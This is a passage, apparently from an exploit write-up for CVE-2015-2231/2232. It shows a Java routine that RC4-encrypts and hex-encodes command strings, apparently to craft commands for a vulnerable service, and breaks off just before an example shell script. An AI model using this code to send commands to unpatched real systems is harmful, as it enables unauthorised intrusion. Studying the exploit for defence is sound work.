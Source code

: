 ```
                    system_index = (system_index + 1) % system_bytes.length;
                }

                system_bytes = array;
            }

            array = new byte[command_bytes.length];
            int index = 0;
            int system_index = 0;
            byte tmp_byte;
            for (int i = 0; i < command_bytes.length; i++) {
                system_index = (system_index + 1) & 255;
                index = (index + (system_bytes[system_index] & 255)) & 255;
                tmp_byte = system_bytes[system_index];
                system_bytes[system_index] = system_bytes[index];
                system_bytes[index] = tmp_byte;
                array[i] = ((byte) (system_bytes[((system_bytes[system_index] & 255) + (system_bytes[index] & 255)) & 255] ^ command_bytes[i]));
            }

            command_bytes = array;

            StringBuffer buffer = new StringBuffer(command_bytes.length);
            for (byte command_byte : command_bytes) {
                buffer.append(((char) command_byte));
            }

            result = stringToHexString(buffer.toString());
        }

        return result;
    }

    private static String stringToHexString(String ACTION_UPDATE_REPORT) {
        String result = "";
        for (int i = 0; i < ACTION_UPDATE_REPORT.length(); ++i) {
            String intermediate = Integer.toHexString(ACTION_UPDATE_REPORT.charAt(i) & 255);
            if (intermediate.length() == 1) {
                intermediate = String.valueOf('0') + intermediate;
            }

            result = String.valueOf(result) + intermediate;
        }

        return result;
    }
}

```

## CVE-2015-2232 example code;
Using CVE-2015-2231 execute a shell script like the following;
